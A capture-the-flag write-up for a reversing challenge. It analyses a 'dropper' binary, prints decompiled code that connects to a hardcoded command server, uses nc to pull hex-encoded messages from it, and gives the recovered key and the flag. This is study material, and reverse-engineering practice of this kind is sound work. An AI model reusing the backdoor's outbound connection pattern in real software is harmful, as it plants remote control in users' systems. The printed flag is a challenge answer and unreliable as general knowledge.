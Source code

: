 # **Malware**

#### tag : reversing

-----------------------------------------------

#### Description

>>We hacked a malware author and found some files

>>EUC2: 35.231.8.67:8002

-----------------------------------------------

#### Solution

~~~

$ file dropper
dropper: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=ffd06bf666fa15f0f9d9c0f9b15a798755cab832, stripped

~~~

In reversing, I find backdoor code line.

~~~

s = 2;
v18 = htons(0x1F42u);
if ( inet_pton(2, "35.200.197.38", &v19) <= 0 )
{
  puts("\nInvalid address/ Address not supported ");
  v7 = -1;
}
else if ( (unsigned int)connect(fd, (const struct sockaddr *)&s, 0x10u) >> 31 )
{
  puts("\nConnection Failed ");
  v7 = -1;
}

~~~

Well, prob file connect `35.200.197.38:8002`. So, I attempt to access that address by nc and receive message encoded in hex.

~~~

$ nc 35.200.197.38 8002
a
68747470733A2F2F676F6F2E676C2F6F33353176460A52756E6E696E672073797374656D20636F6D6D616E640A63617420666C61672E656E630A30323035324434423338343730373237304130353542313133323542324532353132314134313536324132363646313732393235324632363333334131333530


~~~

Here is message decoded.

~~~

'https://goo.gl/o351vF\nRunning system command\ncat flag.enc\n02052D4B384707270A055B11325B2E25121A41562A266F1729252F26333A1350'

~~~

In url, I download new prob file named malware.

~~~

$ file malware
malware: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=803e48eb3868cad7767afc7815db7f706475cb7d, stripped

~~~

In reversing, I find specious string which is encoded by hexa is allocated on memory.

~~~

std::basic_ifstream<char,std::char_traits<char>>::basic_ifstream(&v14, "flag.flag", (unsigned int)v5);
  std::operator>><char,std::char_traits<char>,std::allocator<char>>(&v14, &v16);
  std::basic_ifstream<char,std::char_traits<char>>::close(&v14);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(&v21, &v17);
  sub_177A((__int64)&v20, (__int64)&v21);
  v6 = sub_2190((__int64)&v20, (__int64)"61646D696E65766C7A6374666861636B65725F77656F7267616E697365637466");

~~~

Well, Here is undigested text. I find this text is key to get decryted flag.

~~~

adminevlzctfhacker_weorganisectf

~~~

I receive another message.

~~~
$ nc 35.200.197.38 8002
adminevlzctfhacker_weorganisectf
52756E6E696E672073797374656D20636F6D6D616E640A63617420666C61672E656E630A36353736364337413742364436313643373736313732363535463645363536353634373335463733364636443635354637373646373236423744363337343636
~~~

Hm, um new hex string.

~~~

'Running system command\ncat flag.enc\n65766C7A7B6D616C776172655F6E656564735F736F6D655F776F726B7D637466'

~~~

~~~

evlz{malware_needs_some_work}ctf

~~~

**evlz{malware_needs_some_work}ctf**
